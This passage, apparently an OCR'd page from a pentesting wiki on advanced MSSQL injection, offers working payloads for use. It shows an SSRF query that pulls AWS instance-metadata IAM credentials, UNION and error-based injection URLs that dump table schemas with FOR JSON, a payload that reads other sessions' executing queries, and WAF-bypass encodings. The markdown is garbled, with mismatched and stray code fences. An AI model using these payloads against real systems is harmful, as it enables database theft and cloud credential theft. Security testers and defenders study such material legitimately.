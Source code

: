 ```
```
```
After successfully adding the assembly and creating the function, the following SQL code can be utilized to perform HTTP requests:

```sql
DECLARE @url varchar(max);
SET @url = 'http://169.254.169.254/latest/meta-data/iam/security-credentials/s3fullaccess/';
SELECT dbo.http(@url);
```
```
### **Quick Exploitation: Retrieving Entire Table Contents in a Single Query**

[[https://swarm.ptsecurity.com/advanced-mssql-injection-tricks/|Trick from here]].

A concise method for extracting the full content of a table in a single query involves utilizing the `FOR JSON` clause. This approach is more succinct than using the `FOR XML` clause, which requires a specific mode like "raw". The `FOR JSON` clause is preferred for its brevity.

Here's how to retrieve the schema, tables, and columns from the current database:

````sql
https://vuln.app/getItem?id=-1'+union+select+null,concat_ws(0x3a,table_schema,table_name,column_name),null+from+information_schema.columns+for+json+auto--
In situations where error-based vectors are used, it's crucial to provide an alias or a name. This is because the output of expressions, if not provided with either, cannot be formatted as JSON. Here's an example of how this is done:

```sql
https://vuln.app/getItem?id=1'+and+1=(select+concat_ws(0x3a,table_schema,table_name,column_name)a+from+information_schema.columns+for+json+auto)--
````
````
### Retrieving the Current Query

[[https://swarm.ptsecurity.com/advanced-mssql-injection-tricks/|Trick from here]].

For users granted the `VIEW SERVER STATE` permission on the server, it's possible to see all executing sessions on the SQL Server instance. However, without this permission, users can only view their current session. The currently executing SQL query can be retrieved by accessing sys.dm_exec_requests and sys.dm_exec_sql_text:

```sql
https://vuln.app/getItem?id=-1%20union%20select%20null,(select+text+from+sys.dm_exec_requests+cross+apply+sys.dm_exec_sql_text(sql_handle)),null,null
```
```
To check if you have the VIEW SERVER STATE permission, the following query can be used:

```sql
SELECT * FROM fn_my_permissions(NULL, 'SERVER') WHERE permission_name='VIEW SERVER STATE';
```
```
## **Little tricks for WAF bypasses**

[[https://swarm.ptsecurity.com/advanced-mssql-injection-tricks/|Tricks also from here]]

Non-standard whitespace characters: %C2%85 или %C2%A0:

```
https://vuln.app/getItem?id=1%C2%85union%C2%85select%C2%A0null,@@version,null--
```
```
Scientific (0e) and hex (0x) notation for obfuscating UNION:

```
https://vuln.app/getItem?id=0eunion+select+null,@@version,null--
````